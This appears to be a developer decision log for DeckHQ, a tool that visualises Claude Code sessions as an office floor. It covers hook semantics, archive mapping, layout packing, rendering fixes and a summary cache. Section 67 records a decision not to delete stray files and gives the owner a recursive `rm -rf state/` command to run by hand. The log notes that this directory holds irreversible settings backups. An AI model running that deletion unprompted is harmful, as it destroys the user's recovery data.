`stop_reason: "tool_use"`, which closes the window. Verified on this machine:
158 `"tool_use"` against 20 `"end_turn"`.

## 42. The hook path was left alone, deliberately

The same staleness is reachable with hooks installed: `Stop` fires when a turn
ends, nothing fires when the session starts working again inside one turn, and
`UserPromptSubmit` does not fire for a message steered into a running turn. So
a session can sit in the review queue while demonstrably busy.

Reconciling that branch against the transcript was implemented and then
**reverted**. It let an observed signal walk an item out of the review queue,
which is the exact failure docs/01-PRODUCT.md §2 exists to prevent, and it
broke seven tests that encode that contract. Hooks are documented as the
authoritative path; the observed merge does not get to overrule them.

The stale state seen in practice came from hooks being installed part-way
through a session, so no `UserPromptSubmit` had fired for the turn in flight.
It clears on the next prompt. If this proves to bite in normal use, the fix
belongs in the hook contract — an event that means "this session is generating
again" — not in the observed merge second-guessing it.

## 43. Nobody stands on the furniture they are using

14 of 23 lounge spots put the agent inside the footprint of the table it was
supposedly using — all four diners in the middle of the dining table, both
table-tennis players on the table, the pool player on the baize.

Same root cause as the reception seating in #37: the spots were derived from
the game's ZONE while the furniture sits inset within it, so the two described
different places. `game()` now hands the table's own rect to the spot builder
and `atTable` positions each player just clear of a named edge, facing back
across it. Asserted at eight different lounge sizes, plus a facing check.

## 44. A pool table has to look like a pool table

Reported: "one trying to play pool on oval wooden table".

The painter filled a rounded rect with the sage `boardGameFelt` and stroked a
hairline border. At play scale on a tan wood floor that reads as an ordinary
side table — there was nothing in it that said *pool*. It now has a heavy rail
frame with a lit top edge, a cloth bed in a proper billiard green, six pockets
(four corners, two at the middle of the long rails), a racked triangle and a
cue ball. Table tennis gained painted boundary lines, a doubles line down the
length, and a net across the middle with overhanging posts.

Both read their own rect to decide which way they lie, per #38.

## 45. Let-go agents have a room instead of vanishing

`placement()` mapped `let_go` to `off_floor` — no position at all. The
renderer had to delete those records outright, because falling through to the
no-seat fallback parked every one of them at the floor origin and stacked 29
archived sessions into a single illegible smear in the top-left corner.

They now go to **The Departed**: a small tiled room at the bottom of the
service column, with packing boxes that accumulate as more sessions are
archived, a bench, and an exit sign. It is deliberately reversible — the room
reads as somewhere people are leaving *from*, not somewhere they live.

The room is built only when it is occupied. An empty room labelled "The
Departed" is a hole in the floor plan, not a feature.

## 46. The app's archive drives `let_go`, and only `let_go`

The Claude Code desktop app keeps one JSON file per session under
`%APPDATA%/Claude/claude-code-sessions/`, carrying `isArchived` and —
crucially — `cliSessionId`. The app's own `sessionId` is `local_<uuid>` and is
NOT the transcript's name; the transcript is `<cliSessionId>.jsonl`. That
field is the only usable link between the two stores. Verified: 43 of 51 app
sessions join to a transcript, 14 of those archived.

**On the invariant.** Archiving a session in the app is the user acting on
that session in the first person — the same class of signal as
`UserPromptSubmit`, which the invariant already admits as its one hook
exception. It is not passive observation, so honouring it does not weaken the
rule. Recorded here because it is a judgment call, not a silent one.

The mapping is deliberately one-dimensional:

    archived             -> let_go   ("fired")
    not archived, let_go -> active   ("rehired")
    not archived, other  -> left alone

That last line is what makes it safe. A session benched in DeckHQ is not
archived in the app, and must not be dragged back to `active` on every poll.
`archived` being *undefined* — a runtime that cannot see an archive — is never
read as "not archived", or every let-go agent on such a runtime would be
rehired on the next poll. All three cases are asserted.

Two placement details: the flag is read once per scan, not per session, and it
is applied AFTER the summary cache. Archiving does not touch the transcript,
so a cached summary would otherwise hold a stale flag until the conversation
happened to change. The read itself lives in the adapter, not in core — the
registry only ever sees `summary.archived`, so nothing outside
`src/adapters/claude-code/` knows this store exists.

## 47. "Settle floor": bench every idle agent at once

A first run against a real machine inherits the whole backlog — 57 sessions
here, nearly all finished weeks ago. Walking each to the lounge by hand is not
a reasonable ask, so `POST /api/settle` (and the header button) benches every
agent that is not live.

"Idle" is defined as **not live**: the process is gone, so it is neither
working nor able to answer. Live sessions are left exactly as they are,
whatever they are doing — those are the ones the floor exists to show.
Archived sessions are skipped; the app's archive owns that dimension.

It is an explicit user action, so it goes through `act()` like any button
press and the invariant is untouched.

## 48. One frame per room — the packing loop rewritten

**Spec:** `05-LAYOUT-REWORK.md` §2.1 ("furniture defines room size — never the
reverse") and §2.3 ("every prop declares an anchor").

**What was wrong.** Both rules were implemented, and they contradicted each
other in the code. A room's furniture was laid out in local coordinates and
then **centred** inside a tiled cell that was usually much larger, while
`resolveAnchors` measured `wall` and `corner` anchors from the **room's own
edges**. Two frames, one room. Every wall-anchored prop resolved in one and
every zone- or attachment-anchored prop in the other.

Measured on the reception at a 53 x 31 cell: the desk, rug, magazine table,
side table, lamp and water cooler formed an island around x = 14..36, while the
three sofas sat at x = 0.4 and x = 50.2 and y = 28.2 — up to **15 units of bare
floor** between the seating and the rug it was supposed to surround. The wall
art hung in the corner rather than behind the desk.
`layout-anchors.test.mjs` §3.3 did not catch it because it measures a
wall-anchored prop's distance to the nearest *wall*, which was zero: the sofas
were flat against them.

**Shipped.** Every builder now lays its contents out in **its own room's
frame**, with (0, 0) at the room's top-left corner, so placing a room is one
translation and an anchor cannot disagree with the coordinates it was written
from. `buildOffice`, `buildLounge` and `buildDepartures` take a `fit` and are
**rebuilt at the size they are actually given** rather than centred inside it,
so a wide reception gets a longer sofa run and a bigger desk instead of the same
furniture with more space around it. A project room, which is the one room the
tiler may stretch, now has **no wall-anchored props at all**: the shelf and the
screen are `attached` to the first desk block, so they travel with the
furniture.

Guarded by `test/unit/floor-integrity.test.mjs`, which asserts every prop
resolves inside its room across seven populations and five aspect ratios.

## 49. The floor is packed for pixels per unit, not for aspect ratio

**Spec:** `05-LAYOUT-REWORK.md` §2.2 and §3.2 — build the floor at
`clamp(viewport aspect, ...)` and land within 0.02 of it.

**What was wrong.** Taken literally, this buys the ratio with void. The packer
derived a floor AREA from the room areas plus a fixed 22% allowance, then
divided it proportionally, so rooms were inflated to fill whatever shape the
ratio demanded. On the reference machine (15 projects, 57 sessions):

| | before | after |
|---|---|---|
| floor | 202.8 x 98.4 U | 142.2 x 69.0 U |
| furniture fill | 43% | 84% |
| project-room fill | 25-38% | 29-58% |
| px per unit at 1280x621 | 6.31 | 9.00 |
| floor taller than the stage | 117 px, unreachable | none |

A lounge-only floor was worse: 197.8 x 96 units to hold a 76 x 72 building —
seventy units of nothing, added solely to make a ratio come out.

**Shipped.** Three changes, none of which loosens a room:

1. **Arrangement first, padding second.** The row count for the project rooms
   and the width of the service column are searched together; both are choices
   about how the same furniture is arranged, so neither costs a room any
   density. Only the residual is padded, and padding is capped at
   `ASPECT_PAD_MAX` (25%) of the floor's own size.
2. **The objective is scale, not ratio.** A floor is drawn at
   `min(stageW / W, stageH / H)`, so the search minimises
   `max(W / targetAspect, H)`, ties broken on total area. Scoring aspect alone
   rates a 212 x 103 floor and a 125 x 61 floor as equally good — both are
   2.06:1 — and then draws every room in the first at half the size.
3. **Slack is circulation, never a bigger room.** Leftover width in a row, the
   strip under a room shorter than its row, and the lobby beside a service room
   narrower than its column are all emitted as corridor rectangles. The floor
   still tiles exactly: the backdrop paints a floor for every rectangle it is
   given, so a gap left implicit is a hole in the building.

`plan.test.mjs`'s aspect tests were rewritten to the new contract — the floor
moves toward the screen's shape, a wider screen always gives a wider floor
(monotonic), and the floor is never more corridor than building.

## 50. Zoom restored as magnification

**Spec:** `05-LAYOUT-REWORK.md` §2.4 — "Zoom 1.0 is redefined as exactly
fit-to-viewport... The range becomes 1.0 - 2.5... Zoom is retained rather than
removed because `03-VISUAL-SPEC.md` §1.1 requires L1 and L2 detail to be
reachable, and the animation work in WP7 is only visible there."

**What was wrong.** Zoom had been removed entirely and replaced with a
horizontal scroll of the working floor under a pinned office and lounge. Three
consequences, all measured on the reference machine:

- **The product sat permanently at L0.** At fit, px-per-unit was 6.31 — 0.45 in
  `lodForZoom`'s units, below the 0.7 L1 threshold. No name labels, no waiting
  badges, no clip animation beyond the hand-raise pulse. Every one of the
  sixteen clips in VISUAL-SPEC §4 was unreachable.
- **Vertical overflow was unreachable.** The scroll was horizontal only, so a
  floor 117 px taller than the stage lost 58 px off the top and 58 off the
  bottom with no way to see either.
- **The building was torn.** Two cameras and two clipped backdrop passes put a
  seam down a plan whose whole point is to read as one floor.

**Shipped.** One camera. `zoom` is magnification on top of the fit scale,
clamped to [1.0, 2.5]; 1.0 is exactly fit and is the minimum, so there is no
state in which the user can lose the floor. Pan is available whenever the floor
is larger than the stage — which includes zoom 1.0 on a floor held at
`MIN_SCALE` — by drag or by wheel, and is clamped on both axes so the viewport
can never leave the building. `Ctrl`/`Cmd` + wheel zooms about the cursor,
`+` / `-` step, `0` returns to fit. On resize a user at 1.0 stays exactly
fitted and a zoomed-in user keeps their magnification.

## 51. The plan is rebuilt for the population, not only for the project set

`scene.js`'s `planSignature` keyed the rebuild on the project set and each
project's session count. But the floor's geometry also depends on the
population: the lounge grows a games table at 3, 5, 7, 9 and 11 benched agents,
the departures room exists only while somebody is in it and is sized from how
many, and the waiting area lays out loose chairs once the sofas are full.

So benching the third agent did not produce a pool table, and archiving the
first session did not produce a departures room — which left every let-go agent
with no seat and no room, and `sync` parked them all at the floor's origin. The
signature now carries the waiting, benched and let-go counts.

Two further consequences of a rebuild were wrong and are now handled in
`agents.js`:

- **A rebuild snaps; it does not walk.** Every seat in a new plan is somewhere
  else, and a record's x/y describes a building that no longer exists. Comparing
  the old seat to the new one made the entire population path across the floor
  on every window resize. `AgentRuntime` now tracks which plan its records
  belong to and snaps on a change, so motion keeps meaning "this agent's state
  changed".
- **Nobody is assigned a place that is already taken.** `assignHashed` honours a
  spot's declared `capacity`, spreads multiple occupants along the furniture
  rather than stacking them on one point, tracks which PLACE on a spot is taken
  rather than only how many, and stands any genuine overflow in a ring around
  its nominal spot instead of exactly on top of it. The lounge and the
  departures room now size their standing room to their occupants, so overflow
  is the exception rather than the rule. A benched agent also only ever picks
  an activity this floor has the furniture for; before, an agent on a quiet
  floor would play pool with no table in front of it.

## 52. Chair backrests were ninety degrees out

`backdrop.js`'s `paintProp` rotates a prop by `prop.angle`, which is in the
plan's convention: 0 faces +x, east. The chair sprite is drawn "looking up the
page", so it needed the same quarter turn `rig.js` applies to the character
sitting in it (`facingRot = bodyAngle + PI/2`, documented in that file's FACING
CONVENTION comment). It did not get one, so every chair on the floor had its
back ninety degrees from the person leaning on it — a chair on the north side of
a desk had its back to the east.

Fixed, and the same reasoning applied to sofas: a sofa's rect says how it
**lies** and its `angle` says which way it **faces**, so the back cushion is
drawn on the far side from the facing. Before this every sofa in the building
had its back to the room and its seat to the wall. Occupants sit forward of
centre by `SOFA_SEAT_BIAS`, on the seat rather than on the back.

## 53. Corridors got a material of their own

Circulation was painted as 24 px tile with full-contrast grout. Once slack
became circulation rather than bigger rooms, corridors were a third of the
floor, and the result read as graph paper with furniture on it. Routes — the
spine and the cross corridors — now use a poured, seamless `circulation`
material with a single soft sheen along the run. A **lobby**, the open floor
beside a room narrower than its column, takes that room's own material instead,
so the reception reads as one space rather than as a room with a bright strip
stuck to its side. Tile grout was halved in contrast and its pitch loosened for
the kitchen and the departures room, which still use it.

Furniture picked up the detail the spec already asked for and the code did not
have: task chairs have arms and an upholstered seat pan (VISUAL-SPEC §6), sofas
have arms, a back and per-cushion seams, and rugs have a contact shadow, a pile
sheen and an inset border.

## 54. The render loop survives a bad frame

An exception escaping `Scene#_frame` took the next `requestAnimationFrame` with
it, so a single bad frame — an unknown clip name, a prop the painter has no case
for — froze the floor permanently, and the user's only signal was that nothing
moved any more. The frame body is now guarded, logs once, and keeps scheduling.

## 48. Idle repos collapse to a strip; archived ones leave the floor

After a settle, most repos have every agent benched — the room is desks,
chairs, a plant and nobody. On this machine that was 13 of 15 rooms.

A project room now has three states, decided by `activeCount` (agents that are
neither benched nor let go):

    active agents        -> open room, with desks and people
    none, not archived   -> collapsed to a strip: name, MK tag, "+" and count
    none, archived       -> off the floor entirely

**An active agent always wins.** That is what makes archiving a room safe: a
room the user collapsed pops back open by itself the moment somebody starts
working in that repo, rather than hiding them. The GUI only offers the archive
control on an idle repo, because on a busy one the control would be a lie.

A collapsed room is a project room with a small fixed footprint and no
furniture, so it rides the same packing, placement, door assignment and
hit-testing as every other room rather than needing a parallel path through
the layout.

Archiving is a view preference — it changes nothing about what is captured or
what any session is doing — so it lives in `store.archivedProjects`, not in
`ackState`, and never goes near the invariant.

### Measured cost

Collapsing shrinks the floor (8850 -> 8094 sq units on this machine, -9%) but
raises the corridor share from 24% to 33%, because the service column is a
fixed size and only the working band shrinks. The rooms are correctly small —
strips keep their natural 13x5 and are never stretched — so the slack is the
packer's aspect target, not a bug in the collapse. Flagged rather than tuned:
the packing search is being actively reworked and guessing at it from here
would fight that work.

## 49. Two sessions edited plan.js at once

Part-way through this work `public/render/plan.js` stopped compiling with
seven undefined constants. It was not this session: another live Claude Code
session in the same repo was applying a constant-extraction refactor and had
written the uses before the declarations.

Work was paused rather than "fixed". Declaring another agent's constants means
guessing at a refactor in flight, and reverting its `buildOffice` would have
destroyed real work — its two-pass fit protocol is better than what it
replaced. Once it landed its declarations, the suite went green at 299 and the
two-pass engine was adopted as-is.

The collapse feature was then re-applied ON TOP of that engine: its rewrite of
`buildPlan` had reverted the partition and left `buildCollapsedRoom` as dead
code. Re-applied as two lines inside its own pipeline (the `visible` filter and
the `projectRooms` map) rather than restoring the parallel `collapsedRooms`
array, so there is one packing path, not two.

Worth knowing for next time: concurrent sessions on one repo are not visible
from inside a session. This one was caught only because the file broke.

## 55. A sofa's `angle` was rotating its footprint

`paintProp` rotates every prop by `prop.angle` before its case runs. The sofa
case is written against the opposite assumption — its own comment says so:
"a sofa's RECT is the truth about how it lies... rotating the prop instead was
tried and is wrong". That held only because every sofa on the floor had
`angle: 0`.

Giving sofas a facing (#52) broke it. The reception's back run is 32 x 2.6 and
faces north, so it was drawn rotated ninety degrees about its own centre: a
2.6 x 32 band straight across the room it is supposed to sit at the back of,
through the wall and down into the lounge below. It looked like a structural
element, which is why it survived several passes of looking at the plan —
the geometry was correct the whole time, and only the painter was wrong.

Fixed by cancelling the ambient rotation in the sofa case, exactly as
`manager` already does, and using `angle` only to decide which long side gets
the back.

**And guarded, because that class of bug is invisible to every test in this
repo.** `paintProp` now clips each prop to its own axis-aligned footprint plus
`PROP_BLEED` (0.6 U, enough for foliage over a pot or the soft edge of a
shadow). A painter that strays outside its rect now simply cannot put
furniture where the plan says there is none. Note the order: the clip is set
in the prop's own un-rotated rect and the facing is applied after — clipping
after rotating cuts an unrotated drawing to a rotated box, which turned that
same 32-unit sofa run into a single cushion.

## 56. The floor was being built for a viewport that did not exist yet

`Scene#_recomputeFitScale` read the canvas box and fell back to
`this.canvas.width / dpr || 1920`. On a canvas that has not been laid out — a
hidden tab, a panel mid-transition, a host pane collapsed to zero — that box is
0 and the backing store is 1px, so the fallback produced a viewport of 1 x 1.
`computeTargetAspect` then clamped to its minimum and the whole floor was built
nearly square, for a stage that turned out to be 2:1. It stayed that way until
something happened to resize the window.

A box below `MIN_CREDIBLE_VIEW` (80px) is now ignored: the last credible
measurement is kept, or a sensible default is used if there has never been one.

## 57. Rebalancing the floor: the working rooms are the subject

The reception and the lounge were crowding out the rooms the product exists to
show. Measured on the reference machine (15 projects, 57 sessions, of which 37
benched and 17 archived), before and after:

| | before | after |
|---|---|---|
| project rooms | 13% of the floor | 24% |
| reception | 912 U² for a queue of one | 802 U², and it shrinks with the queue |
| departures | 48 U² per person | 21 U² |
| lounge | 2727 U², 20% furniture density | 2132 U², 26% |
| corridor | 30% | 26% |
| px per unit at 1280x621 | 6.31 | 10.8 |

Six changes, each addressing one cause:

1. **The reception is sized for its queue.** It was a fixed 28 x 24 whatever
   was waiting in it. It now starts at 22 x 20 and grows per waiting agent up
   to 38 x 28, and never exceeds `ROOM_ASPECT_MAX` — a 2:1 reception reads as a
   corridor with a desk at one end.
2. **The departures room keeps its own height.** Standing beside the reception
   it was being stretched to the reception's, which gave seventeen archived
   sessions forty-eight square units each to stand in. The strip below it is
   circulation instead.
3. **The lounge shelf-packs.** `flowBlocks` puts a fixed number of blocks in
   every row, which is right for a project's identical tables and wrong for a
   lounge whose blocks run from a 7 x 8 arcade to a 15 x 11 living room. The
   new `shelfPack` fills each row to a width budget, tallest first: same
   furniture, same spacing, a quarter less floor.
4. **The working floor shelf-packs too**, for the same reason — the floor now
   holds rooms of two very different sizes, and a count-based row put a
   twelve-unit working room and a five-unit collapsed one together and left a
   seven-unit strip of nothing under the short one.
5. **Corridors are sized to what they separate.** A flat four-unit cross
   corridor between two rows of five-unit-deep rooms is wider than the rooms,
   and the working floor read as stripes. `corridorBetween` scales it to the
   shallower neighbour, within `[MIN_GAP, CORRIDOR]`.
6. **A collapsed room is sized to the repo it stands for.** A fixed 13 x 5 card
   made a project with fifteen idle sessions the same size as one with a single
   session, and the working floor a stack of identical slivers.

Two rules were relaxed, both deliberately:

- **The lounge has its own aspect band** (`LOUNGE_ASPECT_MAX`, 2.6). The 1.8
  band exists so the tiler cannot hand a room a shape nothing can be laid out
  in — desks in rows need something close to square. The lounge is the widest
  thing in the service column by construction, and holding it to 1.8 cost
  fifteen units of empty floor or a re-pack that made the whole building
  taller.
- **The service column pays for the width it takes** past
  `SERVICE_SHARE_TARGET` (42%). Optimising pixels-per-unit alone is happy to
  give it two thirds of the width, because a wide column is a short one and a
  short one makes the floor fit — and the result reads as an office with a
  small bay of desks attached to it.

## 58. Archived sessions are off the floor

`45` gave let-go agents a departures room so they would stop vanishing. That
fixed the wrong half of the problem. An archived session is one the user has
explicitly put away; giving it a furnished room put a fifth of the plan into a
place where nothing happens, and took that space from the rooms the product
exists to show. On the reference machine seventeen archived sessions were
holding 816 square units — more floor than every project room combined.

A street was tried in between: a road down the far left with the let-go agents
walking up and down it. It is a better answer than a room and still the wrong
one, because it is still screen space spent on sessions that are put away.

**Shipped:** archived sessions get no room, no strip and no record. They are
still counted, still in the panel, still one un-archive away from walking back
in — they simply do not appear on the floor. `AgentRuntime#sync` drops their
records rather than keeping them seatless, because a record with no seat falls
through to the no-seat fallback and parks at the floor's origin, which is what
stacked seventeen bodies into one smear in the top-left corner.

`plan.test.mjs` now asserts the property that matters: the floor lays out
*identically* whether there are no archived sessions or fifty.

**Loose end for the orchestrator:** the header's "Show let go" toggle now
drives nothing. It writes a `showLetGo` setting that no code reads — that was
already true of the panel and the queue, and the floor was the last consumer.
Either wire it to something or take the button out.

## 59. The floor is two bands, and the shares are the design

The working rooms are the subject of the plan; the reception and the lounge are
context. That is now stated in the layout rather than left to fall out of
whatever each side's contents happened to want:

```
service   ~32%   the user's office above the lounge
working   ~65%   the project rooms
```

`SERVICE_SHARE` is the aim and `SERVICE_MAX_SHARE` the ceiling: a column that
wants more than its share pays for it in floor width, so the search sees what a
wide column really costs and a narrower one can win on its own merits. The
ceiling is bounded (`SERVICE_PAD_MAX`) and is not enforced at all below
`SERVICE_CEILING_MIN_ROOMS` project rooms — with one or two rooms nothing is
being crowded out, and reserving two thirds of the width for a single room just
buys empty circulation.

Measured on the reference machine, across the whole rework:

| | before | after |
|---|---|---|
| working band | 25% of width | 62% |
| project rooms | 13% of floor area | 31% |
| reception | 912 U² for a queue of one | 802 U², sized to the queue |
| lounge | 2727 U² | 1927 U² |
| archived sessions | 816 U² | none |
| corridor | 30% | 39% of area, but inside the reserved working band |
| px per unit at 1280x621 | 6.31 | 9.60 |

Three further changes made the bands hold their shape rather than filling with
circulation:

1. **The working floor picks the row width that best fills the height** the
   service column has already fixed, instead of always packing to the widest
   row it is allowed. It fills its band rather than sitting in the top of it.
2. **A row's leftover width goes to the ROOMS first.** A band reserved for
   project rooms and then filled with corridor is the same defect as a room
   bigger than its furniture, one level up. Each room takes its share up to
   `ROOM_ASPECT_MAX` — or `COLLAPSED_ASPECT_MAX` for a collapsed room, which is
   a plate rather than a room laid out with desks in rows and may legitimately
   be a wide strip. A widened room centres its furniture (`place`), which is
   safe here and only here because a project room carries no wall-anchored
   props.
3. **A collapsed room takes its whole cell.** It has nothing inside it to leave
   stranded, and a strip of corridor under a plate reads as a gap in the floor
   rather than as somewhere to walk.

And the lounge stops growing without limit: `LOUNGE_MAX_GAMES` caps it at five
tables. The thresholds in `03-VISUAL-SPEC.md` §4.2 were written for a handful
of benched agents; on a real machine nearly every session ends up benched, so
every threshold fires at once and the lounge becomes a games arcade — measured
at six tables and half the room.

## 60. Two rows, one corridor, and columns that stack

The working floor was being packed as shelves: as many rows as the rooms
needed, each with a corridor under it. On a real machine that meant five rows
of shallow rooms with a corridor between every pair — the corridors were wider
than the rooms were deep, and 43% of the floor was circulation.

The shape is now stated rather than derived:

- **Two rows, one corridor.** `WORKING_ROWS` is 2 once there are enough rooms
  to fill both. More rows means more corridors; fewer means one very deep row
  with nothing stacked in it.
- **A column holds a stack.** A project with two agents needs a fraction of the
  depth a twenty-one agent project does, and standing those side by side wastes
  the difference. `packColumns` fills each column to the row's depth, best-fit
  so the stacks come out tight rather than one column absorbing every small
  room in the building. This is where the depth that used to become corridor
  goes.
- **The rooms take the slack before the floor does.** A row's spare width is
  shared across its columns and a column's spare depth across the rooms stacked
  in it, so squaring the building up to the stage makes the project rooms
  bigger rather than the corridors wider. That in turn is why
  `ASPECT_PAD_MAX` could be raised from 0.08 to 0.25: the padding is no longer
  void.

Two routes exist on the working floor and both are real: the full-width
corridor between the two rows, and the **aisle** beside each column, which runs
its whole depth and is how a room in the middle of a stack reaches the floor.
`buildNavLines` reads a corridor's own shape to decide which it is, and extends
each aisle half a corridor past both ends so it actually meets the corridor's
centreline — a line that stops exactly at the corridor's edge never intersects
it, and the graph comes apart into one component per row. The gap between two
rooms stacked in the same column is floor, not a route.

## 61. One column width, and both service rooms fill it

The office was capped at `OFFICE_MAX_W` while the column was as wide as the
lounge needed, so a strip of nothing sat beside the reception — a room-shaped
piece of empty floor next to the room the user reads first, taking width the
working floor could have had. The lounge had the same strip on its other side
whenever its blocks packed narrower than the column.

The column now has ONE width. The office is built at it, the lounge is built to
it and takes it whatever its blocks packed to — open floor in a lounge is a
lounge, and the alternative is a strip of circulation beside it doing the same
job less honestly. There is no lobby anywhere in the column except below the
lounge, where the working floor made the building taller than the column
needed.

Measured across the whole rework, on the reference machine (15 projects, 57
sessions, 37 benched, 17 archived):

| | at the start | now |
|---|---|---|
| project rooms | 13% of floor area | **58%** |
| corridor | 30% | **16%** |
| service column | 58% of area, 64% of width | 26% of area, 26% of width |
| working band | 25% of width | **72%** |
| archived sessions | 816 U² | none |
| px per unit at 1280x621 | 6.31 | 8.01 |

**The cost, stated plainly:** pixels-per-unit is *lower* than the 9.6 the wider
column reached. Holding the column to the office's width makes the lounge tall
— 38 x 56 for thirty-seven benched agents and five games tables — and the
building is as tall as its tallest column. The floor is drawn at
`min(stageW / W, stageH / H)`, so that height is what now limits the scale.
The trade was made deliberately: the rooms are individually far larger even at
the smaller scale, because they are no longer sharing the floor with a column
and a corridor network twice their size.

## 62. The working floor is a squarified treemap after all

`03-VISUAL-SPEC.md` §2.2 asked for a squarified treemap and an earlier revision
of `plan.js` rejected it, on the grounds that a treemap "honours each item's
AREA and lets the aspect fall where it may". That is true of a plain
slice-and-dice treemap and is precisely what the *squarified* variant fixes: it
accumulates items into a row only while doing so makes the worst aspect in that
row better, and starts a new row the moment it would make it worse. The
original judgement was made against the wrong algorithm.

It is the right structure here for three reasons the shelf packer could not
give:

- **The cells tile their band exactly**, so adjacent rooms share a wall instead
  of being separated by a strip of circulation. The whole floor now contains
  exactly two pieces of circulation: the spine between the service column and
  the working floor, and one cross corridor between the two bands. Nothing
  else. `floor-integrity.test.mjs` asserts the count and asserts that every
  project room's left edge meets either the spine or another room's right.
- **A small project gets a small square, not a full-height splinter.** A shelf
  gives every room in a row the same depth whatever its width, so a
  one-session project beside a twenty-one session one became a sliver.
- **The floor can be told what size to be.** A treemap tiles whatever rectangle
  it is handed, so the plan sets `W = targetAspect * H` and fills the stage
  exactly — no letterbox band, no bay of leftover floor, and no padding rule to
  tune. That is what `05-LAYOUT-REWORK.md` §3.1 asked for and what every
  previous attempt bought with void.

Two guards keep it honest. `WEIGHT_MAX_RATIO` (2.5) compresses how much more
floor a large project may claim than a small one — unclamped, one big repo
beside a dozen single-session ones turns the small rooms into splinters
whatever their area says. And the two-band plan gives way to one band if two
would leave a room past `PROJECT_ASPECT_LIMIT` (2.4:1), which happens with
three rooms on a wide floor.

Rooms are rebuilt for the cell they are given — a project's tables flow to that
shape rather than being laid out square and centred in something that is not —
and the building grows until every room holds its own furniture, because a desk
outside its room is a desk in the corridor.

## 63. Every room keeps a clear strip for its plate

A room plate is live text drawn straight onto the floor — no card, no fill
(CONTRACTS-WP15.md §3) — so anything under it competes with it. Reserving the
strip in the PLAN rather than hoping the furniture misses it is the only way to
be sure: every room carries a `plateBand` at its top, its interior starts below
it, and `resolveAnchors` measures wall and corner anchors from there. A prop
against the north wall lands under the band, not under the writing.

Two consequences: the reception's art moved from the north wall to the east
one, and a project room's corner planting takes the south-west, south-east and
north-east corners but never the north-west, which is where its name is
written.

## 64. Project rooms are furnished, not just occupied

The treemap gives a project room a cell sized to its share of the floor, which
is routinely larger than its desks need. A group of desks adrift in the middle
of a room is unfinished work, so the room is furnished the way an interior
would be:

- a **rug** under the desk cluster, sized to it, which is what defines a group
  as a group;
- **planting** in the corners the plate and the wall fixtures leave free;
- the **shelf** and the **dashboard screen** on the east wall, stacked below
  the in-room "+" that sits in the corner above them;
- and the **whiteboard** on the west wall, facing the room.

Measured content fill in an occupied project room went from 29% to 94%.

## 65. The whiteboard opens

Every project room has a board on its wall, and it is the one object on the
floor drawn with any perspective at all. Straight down, a wall-mounted board is
a line — true, and useless. The floor is an orthographic top-down plan
(VISUAL-SPEC §1) and everything else on it obeys that; the board's face is
drawn foreshortened into the room, the way an architectural plan draws an
elevation of something it wants you to read. It is the only object on the floor
that carries writing, and writing you cannot see is not worth drawing.

Clicking it opens the board itself — the product's one deliberate change of
plane, from looking down at a room to standing in front of the thing on its
wall. It carries what a team keeps written up where everyone can see it:
sessions, working, hands up, in your office, benched, finished, archived,
tokens, cache tokens and estimated cost, then every session on the floor with
its state and its own token count, and the project total.

It is a modal, opened by a click and dismissed by Esc or by clicking off it.
It used to open on HOVER, which meant a panel appearing under the cursor as it
crossed the floor. And it is the one genuinely white surface in the product,
because it is a whiteboard; every other surface stays dark-tinted.

## 66. The description is not a changelog

`package.json`'s description ended with "(Codex adapter included but
unverified.)". Honest, and in the wrong place. That one line is what npm search
renders under the package name, next to a dozen competitors, and it was
spending its last forty characters warning about a secondary adapter before it
had finished making the case for the primary one. The caveat has not been
softened — it is in the README's Honest limits, where someone deciding whether
to trust the tool will read it, rather than in the sentence deciding whether
they look at all.

Three further changes went past what WP-01 asked for, all in the same file:

- `control-plane` removed from the keywords. `02-MARKET-AND-LAUNCH.md` §2 lists
  "that we orchestrate" under **what we never say**, and a control plane is
  exactly the thing we are positioned against. Turning up in that search is a
  wrong-audience impression, not a free one. `claude`, `local-first` and
  `privacy` added in its place.
- A `funding` field pointing at GitHub Sponsors, to match `.github/FUNDING.yml`.
  npm renders it on the package page; there was no reason for the two files to
  disagree.
- `.github/ISSUE_TEMPLATE/config.yml`, which WP-02 did not ask for. Without it
  GitHub keeps the "open a blank issue" escape hatch, and a security report
  filed through that escape hatch is public the moment it is filed. The chooser
  now sends those to the private advisory form instead.

`CHANGELOG.md` was **not** added to the `files` array, though it was tempting.
The tarball stays at exactly the 39 files and 203 kB `01-AUDIT.md` F1 measured,
so "confirm that stays true" has a clean answer. npm rewrites the README's
relative link to it against the `repository` field, so nothing is broken by its
absence.

## 67. The stray working files were left where they are

WP-02 asks for `run.log`, `run.err.log`, `state.json` and `state/` to be
removed from the working tree. They were not, and this is a deliberate refusal
rather than an oversight.

`.gitignore` already covers all four (`*.log`, `state.json`, `state/`), none of
them is tracked, and the `files` array keeps every one of them out of the
tarball. So the hygiene the finding actually cares about — that they never
reach git or npm — is already true. Deleting them buys a tidier `ls`.

Against that: `state/settings-backup-*.json` is a copy of the user's real
runtime settings file, taken before DeckHQ edited it to install hooks. It is a
recovery artifact. `state.json` is the pre-1.1.0 state file, holding
acknowledgements from before the move to `~/.deckhq/`; 1.1.0 copies it across
on first start and deliberately leaves the original where it is, for exactly
this reason. Deleting either is irreversible and buys cosmetics.

They also sit in the shared checkout rather than in the worktree this work was
done in, so removing them would reach outside the change under review and into
a directory other work is live in.

Left for the owner to delete by hand, whenever no daemon is running:
`rm -f run.log run.err.log state.json && rm -rf state/`.
## 68. The summary cache persists, and it deliberately does not paint stale

§11 closed with "a persistent on-disk summary cache would remove even [the cold
scan], and is the obvious next step". It is now in, at
`~/.deckhq/cache/<runtime>.json` (`DECKHQ_STATE_DIR` honoured exactly as for
`state.json` and `backups/`), keyed by `(path, mtime, size)` — the same
invalidation rule the in-memory cache already used — and carrying a schema
version that discards rather than migrates.

Measured on this machine (Windows 11 ARM64, **66** real sessions across 14
project directories, 307 MB of transcripts, one at 74 MB), before and after,
the two arms interleaved and then re-run with their order flipped so machine
drift hit both equally. A "start" is a fresh process doing its first scan —
what a daemon start actually costs. Medians, with ranges:

| | before | after |
|---|---|---|
| Cold start, no cache file | 838 ms (737–1166) | 778–868 ms (761–1073) |
| **Second start** | **780–854 ms** | **59–90 ms** (56–90) |
| Poll — warm scan, same process | 64–68 ms | 63 ms |
| Cache file on disk | — | 62 KB |

The target was a populated floor under 400 ms on the second start with 51
sessions. Met at 66 sessions with better than 4x of headroom: **under 90 ms in
the worst run measured**, roughly twelve times faster than before. The cold
start is unchanged within noise — the only thing added to it is one 62 KB
atomic write.

**The cache deliberately does not paint stale summaries and reconcile in the
background, which is what the work package asked for.** Only entries that are
provably current — mtime *and* size unchanged, so the file cannot have changed
in any way `parseSummary` could see — are served; anything else is parsed
before it is returned.

